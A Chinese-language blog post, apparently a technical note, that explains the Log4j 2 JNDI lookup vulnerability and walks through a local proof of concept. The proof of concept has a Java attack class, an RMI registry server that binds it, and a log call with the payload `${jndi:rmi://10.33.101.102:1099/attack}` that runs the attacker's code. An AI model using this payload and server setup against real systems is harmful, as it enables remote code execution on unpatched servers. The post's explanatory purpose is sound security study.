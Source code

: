 ```yaml
---
layout: post
title: log4j bug
tag: 技术笔记
date: 2021-12-11
category: Technology
---
```


#### log4j

Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；我们也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，我们能够更加细致地控制日志的生成过程。最令人感兴趣的就是，这些可以通过一个配置文件来灵活地进行配置，而不需要修改应用的代码。

#### 漏洞简介

此次的漏洞出现，正是由于Log4j 2 提供的lookup功能造成的，该功能允许开发者通过一些协议读取相应环境中的配置，但在实现的过程中，并未对输入进行严格的判断，从而造成漏洞的发生。

简单来说，就是在打印日志时，如果发现日志内容中包含关键词${ ，那么这个里面的内容就可以当作变量来进行替换，导致攻击者可以任意执行命令。

#### 漏洞使用

简单来看一下嗷，搭建一下环境

log4j2.xml、依赖

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="Console"/>1
        </Root>
    </Loggers>
</Configuration>
```

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-api</artifactId>
        <version>2.14.0</version>
    </dependency>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.0</version>
    </dependency>
</dependencies>
```

```java
package com.cdw;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class Log4jTest {

    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {
        String username = "cdw";

        logger.info("Hello {}", username);
    }
}

运行结果：
    11:50:19.111 [main] INFO com.cdw.Log4j2Test - Hello cdw

```

可以看到这里日志的输出正常，将我的字符串输出到了控制台

稍微修改一下代码

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class Log4j2Test {

    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {
        String username = "${java:vm}";

        logger.info("Hello {}", username);
    }
}

运行结果：
    11:52:35.483 [main] INFO com.cdw.Log4j2Test - Hello Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

看看不一样了，居然打印了我虚拟机的一些信息，这就是lookup扩展，具体这里不详细说了，但有个问题，lookup这个功能是基于jndi，jndi支持rmi，问题就出现了。

JNDI(The Java Naming and Directory Interface，Java 命名和目录接口) 是一组在Java 应用中访问命名和目录服务的API。为开发人员提供了查找和访问各种命名和目录服务的通用、统一的方式。借助于JNDI 提供的接口，能够通过名字定位用户、机器、网络、对象服务等。

RMI(Remote Method Invocation)远程方法调用是一种计算机之间对象互相调用对方函数，启动对方进程的一种机制，使用这种机制，某一台计算机上的对象在调用另外一台计算机上的方法时，使用的程序语法规则和在本地机上对象间的方法调用的语法规则一样。

我先创建一个攻击类

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class AttackJob implements ObjectFactory {
    static {
        System.out.println("你已经被我攻击了");
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("攻击");

        return "攻击";
    }
}

```

然后创建一个注册的服务类，将我的攻击类注册到里面

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {
        try {
            //创建一个本地的注册
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();
            Reference reference = new Reference("com.cdw.jndi.AttackJob","com.cdw.jndi.AttackJob", "com.cdw.jndi.AttackJob");
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            //将我的攻击类绑定
            registry.bind("attack", referenceWrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```

修改一下${}中的参数，直接调用，我们看看结果

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class Log4j2Test {

    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {
        //我这里jdk版本为 8u181 jndi + rmi需要开启
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

        //String username = "${java:vm}";
        //注意这里
        String username = "${jndi:rmi://10.33.101.102:1099/attack}";

        logger.info("Hello {}", username);
    }
}


运行结果
    你已经被我攻击了
    攻击
    14:07:01.582 [main] INFO com.cdw.Log4j2Test - Hello 攻击
```

可以很明显的看见，并没有输出日志，而是运行了我在攻击类中定义的代码，当然你也可以在代码中写任何你想要的操作。